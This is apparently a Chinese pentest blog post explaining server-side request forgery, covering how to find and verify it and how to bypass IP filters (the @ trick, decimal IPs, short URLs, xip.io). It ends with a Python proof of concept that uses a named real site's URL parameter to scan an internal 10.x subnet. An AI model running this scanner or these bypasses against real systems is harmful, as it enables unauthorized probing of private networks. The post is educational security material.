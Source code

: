+++
date = "2016-06-30T15:30:54+08:00"
description = ""
draft = false
tags = ["ssrf"]
title = "SSRF"
topics = ["Pentest"]

+++

### 0x00 什么是SSRF
> &nbsp;&nbsp;&nbsp;&nbsp;SSRF(Server-Side Request Forgery:服务请求伪造)是一种由攻击者构造，从而让服务端发起请求的一种安全漏洞，<font color="FF0000">它将一个可以发起网络请求的服务当作跳板来攻击其他服务</font>，SSRF的攻击目标一般是<font color="FF0000">内网</font>。  
&nbsp;&nbsp;&nbsp;&nbsp;当服务端提供了从其他服务器获取数据的功能(如:从指定URL地址获取网页文本内容、加载指定地址的图片、下载等)，但是没有对目标地址做过滤与限制时就会出现SSRF。

### 0x01 SSRF的危害
> 可以扫描内部网络  
可以构造数据攻击内部主机

### 0x02 漏洞挖掘
> 其实只要能对外发起网络请求就有可能存在SSRF漏洞。
```
1. 从WEB功能上寻找
    通过URL分享内容
    文件处理、编码处理、转码等服务
    在线翻译
    通过URL地址加载与下载图片
    图片、文章的收藏
    设置邮件接收服务器
2. 从URL关键字寻找
    share、wap、url、link、src、source、target、u、3g、
    display、sourceURl、imageURL、domain...
```

### 0x03 漏洞验证
> ```
http://www.aa.com/ss.php?image=http://www.baidu.com/img/bd_logo1.png
1. 右键在新窗口打开图片，图片地址为http://www.baidu.com/img/bd_logo1.png，
    说明不存在SSRF漏洞。  
2. firebug看网络连接信息，若没有http://www.baidu.com/img/bd_logo1.png
    这个图片请求，则证明图片是aa.com服务端发起的请求，则可能存在SSRF漏洞。
```

### 0x04 绕过过滤
> 有时漏洞利用时会遇到IP限制，可用如下方法绕过：
```
* 使用@：http://A.com@10.10.10.10 = 10.10.10.10
* IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
* 使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
* 端口绕过：ip后面加一个端口
* xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
* 通过js跳转
```

### 0x05 通用的SSRF实例
> ```
* weblogin配置不当，天生ssrf漏洞
* discuz x2.5/x3.0/x3.1/x3.2 ssrf漏洞
* CVE-2016-1897/8 - FFMpeg
* CVE-2016-3718 - ImageMagick
```

### 0x06 附实例POC
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests
from IPy import IP
import Queue
import threading


def get_url_queue():
    url = "http://www.sogou.com/reventondc/external?key=&objid=&type=2&charset=utf-8&url=http://"
    urllist = Queue.Queue()
    ip_list = IP('10.146.20.0/24')
    port_list = ['80','8000','8080']
    for ip_add in ip_list:
        ip_add = str(ip_add)
        for port in port_list:
            url_t = url + ip_add + ':' + port
            urllist.put(url_t)
    return urllist

def get_title(urllist):
    while not urllist.empty():
        url = urllist.get()
        html = requests.get(url).text
        patt = r'<title>(.*?)</title>'
        m = re.search(patt,html)
        if m:
            title = m.group(1)
            print "%s\t%s" % (url,title)


urllist = get_url_queue()
print "start get title..."
for x in xrange(1,30):
    t = threading.Thread(target=get_title,args=(urllist,))
    t.start()
```